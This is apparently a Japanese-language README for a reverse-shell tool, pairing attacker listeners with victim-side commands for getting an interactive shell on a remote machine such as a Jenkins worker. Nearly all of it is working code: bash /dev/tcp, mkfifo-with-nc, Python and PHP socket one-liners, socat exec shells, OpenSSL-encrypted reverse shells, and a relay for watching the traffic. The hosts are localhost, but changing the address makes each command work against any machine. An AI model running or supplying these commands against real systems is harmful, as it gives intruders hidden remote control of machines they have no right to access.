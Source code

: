 # reverse shell

* [Reverse Shell \(リバースシェル\) 入門 & 実践 \- 好奇心の足跡]( https://kusuwada.hatenablog.com/entry/2019/10/30/044325 )

## use case
* 任意のコマンドを実行できるサーバであるが，インタラクティブな操作ができない場合
  * jenkinsのslave(victim) <-> my machine(attacker)

## how to install
```
# for avoiding 'pip Installing collected packages: UNKNOWN'
pip3 install setuptools --upgrade
pip3 install https://github.com/umaumax/reshepy/archive/master.tar.gz
```

```
# mac
brew install socat
# ubuntu
sudo apt-get install -y socat
```

----

<!-- ## darwin -->
<!-- * [macos \- Create reverse shell using High Sierra? \- Ask Different]( https://apple.stackexchange.com/questions/324824/create-reverse-shell-using-high-sierra ) -->
<!-- ### attacker machine -->
<!-- ### victim machine -->

## TL;DR
* attacker machine
  * 基本的に自由な環境
    * `openssl`と`socat`がほしい
* victim machine
  * `openssl`さえあればsecureな通信が可能
  * `socat`があるに越したことはないが，`python -c 'import pty; pty.spawn("/bin/sh")'`での代用や直接バイナリをダウンロードする方法がある
    * [static\-binaries/socat at master · andrew\-d/static\-binaries]( https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat )

### DONE
* 通信のみはsecureで制御信号も受け付ける

### TODO
* attackerがclient証明書を利用するケース
* victimがserver証明書を利用するケース(only victim reshepy ok)
* ファイルを共有せずにone linerで上記の項目を実現し，完全にsecureとしたい

## ubuntu
### attacker machine
```
nc -nvlp 8080
```

### victim machine
```
bash -i >& /dev/tcp/localhost/8080 0>&1
```

## common (mac, ubuntu)
### attacker machine
```
nc -nvl 8080
```

```
# socat tcp-listen:8080,reuseaddr,fork stdout
# below command can handle signal and tab
socat $(tty),raw,echo=0 tcp-listen:8080,reuseaddr
```

### victim machine
```
mkfifo myfifo
nc 127.0.0.1 8080 < myfifo | /bin/bash -i > myfifo 2>&1
rm -f myfifo
```

```
python -c 'import sys,socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((sys.argv[1],int(sys.argv[2])));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' 127.0.0.1 8080
```

```
php -r '$sock=fsockopen($argv[1],intval($argv[2]));exec("/bin/bash -i <&3 >&3 2>&3");' 127.0.0.1 8080
```

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:localhost:8080
```

## FYI
* [PayloadsAllTheThings/Reverse Shell Cheatsheet\.md at master · swisskyrepo/PayloadsAllTheThings]( https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md?source=post_page-----c7598145282d---------------------- )
* `source`: [ersh\.py: a pure Python encrypted reverse shell \| Borderline]( https://blog.kwiatkowski.fr/?q=en/ersh )

## secure

[OpenSSLでReverse Shellの通信を暗号化する\(\+"Ctrl\+C"の対応\) \| 俺的備忘録 〜なんかいろいろ〜]( https://orebibou.com/2019/07/openssl%E3%81%A7reverse-shell%E3%81%AE%E9%80%9A%E4%BF%A1%E3%82%92%E6%9A%97%E5%8F%B7%E5%8C%96%E3%81%99%E3%82%8B%E3%82%AD%E3%83%BC%E3%83%90%E3%82%A4%E3%83%B3%E3%83%89%E5%AF%BE%E5%BF%9C/ )

* 通信内容はsecureだが，通信相手が正しいとはわからない

### attacker machine
```
# openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 3650 -nodes
# Country Name (2 letter code) []: US
# Common Name (eg, fully qualified host name) []:www.localhost.com
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 3650 -nodes -subj "/C=US/ST=/L=/O=/OU=/CN=www.localhost.com/emailAddress=/"

openssl s_server -quiet -key key.pem -cert cert.pem -port 8080
```


```
reshepy localhost:8080
```

`socat` secure version
```
# verify=0: no client certificate check
socat $(tty),raw,echo=0 openssl-listen:8080,reuseaddr,cert=cert.pem,key=key.pem,verify=0
```

at darwin
`stty: stdin isn't a terminal`

* [OpenSSL: How to create a certificate with an empty subject? \- Stack Overflow]( https://stackoverflow.com/questions/26058406/openssl-how-to-create-a-certificate-with-an-empty-subject )
* [x509 \- OpenSSL: How to create a certificate with an empty subject DN? \- Super User]( https://superuser.com/questions/512673/openssl-how-to-create-a-certificate-with-an-empty-subject-dn )

### victim machine
```
# socat ok
mkfifo /tmp/p;python -c 'import pty; pty.spawn("/bin/sh")' < /tmp/p 2>&1 | openssl s_client -quiet -connect 127.0.0.1:8080 > /tmp/p;rm -f /tmp/p
```
pythonのspawn a TTY shell from an interpreterを利用することでsocat(fully tty reverse shell)なしでもOK

`socat` secure version
```
socat openssl-connect:localhost:8080,verify=0 exec:'bash -li',pty,stderr,setsid,sigint,sane
```
より安全に通信したい場合には`verify=1`とする?

* client側が適切なサーバかどうかを判定する処理
  * (ctrl-cやtab ok)
```
reshepy -c cert.pem --host=www.localhost.com localhost:8080
```
* 上記のコマンドのcert.pemに該当する部分をbase64でencodeしてテキストベースで貼り付ければ余計なファイルは不要な状態となる
  * また，基本的に，victimが変なサーバに接続することを防止できれば，attackerが変なクライアントを受け入れてもそれほど問題はない
    * (attacker側はコマンドの送信と表示のみであることと，ユースケースとしてネットワーク的に外からのアクセスは受け付けない場所にあると仮定されるため)

----

## port forwarding
下記のコマンドを`attacker`のlocalで動作させれば通信内容を見ることができる
`localhost:8081`->`127.0.0.1:8080`
```
mkfifo fifo
while true ; do nc -l 8081 < fifo | tee /dev/stderr | nc 127.0.0.1 8080 | tee /dev/stderr > fifo; done
rm -f fifo
```

----

## NOTE
* `attacker`と`victim`のコマンドの組み合わせは基本的に自由
* macでは`/dev/tcp/xxx`や`/dev/udp/xxx`などは利用できない
* attackerで`nc`を利用して待ち受けている場合は`ctrl-c`で`nc`が終了してしまう
  * `socat`を利用すればよいが，macには存在しない
* 通常は非暗号化状態で通信
* 接続直後に画面が乱れた場合には`stty sane`
